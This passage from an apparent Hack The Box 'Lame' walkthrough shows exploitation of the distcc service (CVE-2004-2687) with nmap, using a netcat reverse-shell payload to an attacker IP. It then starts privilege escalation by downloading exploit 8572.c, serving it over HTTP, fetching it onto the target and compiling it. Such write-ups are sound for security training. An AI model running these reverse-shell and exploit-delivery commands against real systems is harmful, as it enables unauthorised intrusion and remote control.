 On another shell, we then run the following command:

```python
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.8 4444 -e /bin/bash'"
```

Upon running, this is the result that we get:

![Lame%203ebd1f539fad4de8915347c6689183d3/Untitled%2016.png](Lame%203ebd1f539fad4de8915347c6689183d3/Untitled%2016.png)

On the listener side, we see a connection from our machine:

![Lame%203ebd1f539fad4de8915347c6689183d3/Untitled%2017.png](Lame%203ebd1f539fad4de8915347c6689183d3/Untitled%2017.png)

Therefore, we have to do privilege escalation to proceed

### Privilege Escalation

To download the exploit from searchsploit:

```powershell
searchsploit -m 8572.c
```

Next, we set up a simple http server:

```powershell
python3 http.server 9005
```

To download the exploit file from the target machine:

```powershell
wget http://10.10.14.7:9005/8572.c
```

To compile the exploit:

```powershell
gcc 8572.c -o 8572
```
